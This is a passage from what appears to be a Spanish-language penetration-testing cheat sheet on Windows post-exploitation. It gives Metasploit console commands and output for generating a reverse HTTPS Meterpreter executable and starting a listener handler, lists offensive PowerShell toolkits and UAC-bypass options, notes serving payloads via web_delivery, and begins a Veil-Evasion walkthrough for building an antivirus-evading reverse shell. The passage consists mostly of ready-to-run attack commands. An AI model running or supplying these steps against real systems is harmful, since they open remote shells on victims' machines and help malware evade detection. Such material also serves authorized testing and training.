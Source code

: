 		   stagerverifysslcert => true
	       msf payload(reverse_https) > set HANDLERSSLCERT /home/kali/.msf4/loot/20220807124850_default_2.17.153.99_2.17.153.99_pem_696944.pem
		   HANDLERSSLCERT => /home/kali/.msf4/loot/20220807124850_default_2.17.153.99_2.17.153.99_pem_696944.pem
		   msf payload(reverse_https) > set LHOST 10.0.2.15
		   LHOST => 10.0.2.15
		   msf payload(reverse_https) > set LPORT 8080
		   LPORT => 8080
		   msf payload(reverse_https) > generate -f exe -o /tmp/payload.exe
		   [*] Writing 73802 bytes to /tmp/payload.exe...
		   ```
		3. Por último toca preparar el módulo `exploit/multi/handler`:
		   ```
		   msf payload(reverse_https) > use exploit/multi/handler 
           msf exploit(handler) > set LHOST 10.0.2.15
		   LHOST => 10.0.2.15
		   msf exploit(handler) > set LPORT 8080
		   LPORT => 8080
		   msf exploit(handler) > set HANDLERSSLCERT /home/kali/.msf4/loot/20220807124850_default_2.17.153.99_2.17.153.99_pem_696944.pem
		   HANDLERSSLCERT => /home/kali/.msf4/loot/20220807124850_default_2.17.153.99_2.17.153.99_pem_696944.pem
		   msf exploit(handler) > set stagerverifysslcert true
		   stagerverifysslcert => true
		   msf exploit(handler) > exploit -j

		   [*] Exploit running as background job.
		   ```
	- [**PowerSploit**](https://github.com/PowerShellMafia/PowerSploit)**:** Conjunto de módulos Powershell (Incluye PowerUp y PowerView) que puedes importar con el módulo de Powershell para realizar diversas acciones en máquinas Windows
	- [**Nishang**](https://github.com/samratashok/nishang)**:** Nishang es un framework y colección de scripts y payloads
	- [**Posh-SecMod**](https://github.com/darkoperator/Posh-SecMod)**:** Otro conjunto de módulos Powershell que pueden ser interesantes (Powershell v3 solo)
	- [**Psgetsystem**](https://github.com/decoder-it/psgetsystem)**:** Script de Powershell para conseguir SYSTEM usando un proceso como padre
	- Si el comando `getsystem` de Meterpreter no consigue escalar puede que se necesite hace un bypass a UAC. En Metasploit hay algunos módulos que podrían ayudar con esto, usa el módulo `post/multi/recon/local_exploit_suggester` para comprobar si alguno vale. En caso de no poder realizar el bypass con Metasploit, siempre queda [UACME](https://github.com/hfiref0x/UACME)
	- Con el módulo `exploit/multi/script/web_delivery` se puede preparar un servidor web con un payload que será ejecutado en el momento que se lance en la victima el comando proporcionado por Metasploit
	- En el caso de tener que evitar un AV se puede utilizar [Veil](https://github.com/Veil-Framework/Veil) junto al empaquetador [UPX](https://upx.github.io/). Lo primero es abrir Veil y generar un ejecutable de Meterpreter:
      ```bash
      ...
      Veil>: use 1
      ...
	  Veil/Evasion>: use python/meterpreter/rev_tcp.py
	  [python/meterpreter/rev_tcp>>]: set LHOST 172.16.5.101
	  [python/meterpreter/rev_tcp>>]: generate
	  ===============================================================================
	                                     Veil-Evasion
	  ===============================================================================
	        [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework
	  ===============================================================================
  